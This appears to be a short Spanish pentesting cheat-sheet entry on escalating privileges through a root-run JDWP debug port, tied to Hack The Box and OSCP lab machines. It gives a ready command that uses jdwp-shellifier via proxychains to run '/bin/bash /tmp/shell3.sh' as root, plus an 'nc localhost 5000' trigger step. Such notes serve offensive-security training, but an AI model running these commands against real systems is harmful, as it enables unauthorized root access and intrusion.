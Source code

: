 ## DESCRIPTION


Si root esta ejecutando jdwp podemos usar la herramienta: [jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier) vale para escalada de privilegios como para explotación.

En PE, lo detecta LINPEAS:

![[Pasted image 20230606203443.png]]

por defecto corre en el puerto 8000

#### Mas información
* 


## EXPLOITATION

El comando a ejecutar:

```
 proxychains python jdwp-shellifier.py -t 127.0.0.1 -p 8000 --cmd "/bin/bash /tmp/shell3.sh"

```

Si es una escalada de privilegios se podría ejecutar en local si tenemos python o utilizando proxychains como en el siguiente ejemplo:

![[Pasted image 20230606204636.png]]

En ese caso el jdwp se queda esperando una operacion socket, observnado una app-java vemos que espera una operacion socket en el puerto 5000 por lo que utilizamos nc localhost 5000 en la máquina victima y ya funciona el script

## MACHINES

* Hack The Box: 
* OSCP: OSCPB Berlin
